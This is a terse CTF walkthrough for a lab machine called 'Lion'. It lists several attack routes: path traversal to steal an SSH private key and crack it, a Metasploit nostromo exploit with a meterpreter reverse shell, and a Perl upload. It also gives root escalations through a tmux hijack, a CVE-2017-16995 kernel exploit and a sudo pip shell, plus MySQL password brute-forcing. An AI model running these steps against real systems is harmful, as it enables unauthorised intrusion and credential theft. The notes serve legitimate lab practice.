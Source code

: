 # Lion
## Method 1
3. http://lion.thm:5555/?page=../../../home/gloria/.ssh/id_rsa
4. `chmod 600 id_rsa`
5. `ssh2john id_rsa > for_john&&john for_john --wordlist=/usr/share/wordlists/rockyou.txt`
6. `ssh -i id_rsa gloria@lion.thm`
## Method 2
### ExploitDB
1. https://www.exploit-db.com/exploits/47837
### Msfconsole
1. `use exploit/multi/http/nostromo_code_exec`
2. `set rport 8080`
3. `set rhost lion.thm`
4. `set payload linux/x86/meterpreter/reverse_tcp`
5. `set lhost tun0`
6. `exploit`
## Method 3
1. http://lion.thm/upload/
2. Executes `perl` file


## Privilage Esc. 1
1. `export TMUX=/.dev/session,1234,0`
2. `tmux`
## Priv Esc. 2
1. https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
2. `gcc --static exploit-poc-pentest.c -o exploit-poc-pentest` and upload it
3. `chmod +x ./exploit-poc-pentest`
4. `./exploit-poc-pentest`
## Alex Priv. Esc.
```bash
TF=$(mktemp -d)
echo "import pty; pty.spawn('/bin/bash')" > $TF/setup.py
sudo pip install $TF
```
## Flags
	cat /home/gloria/user.txt
	cat /home/marty/user.txt (Reversed)
	cat /home/alex/user.txt (Rot13)
	cat /root/.flag
	cat /opt/code/server.py
		MySQL: db-> blog, table-> users, id-> 140
		`hydra -l root -P /usr/share/wordlists/rockyou.txt lion.thm mysql`
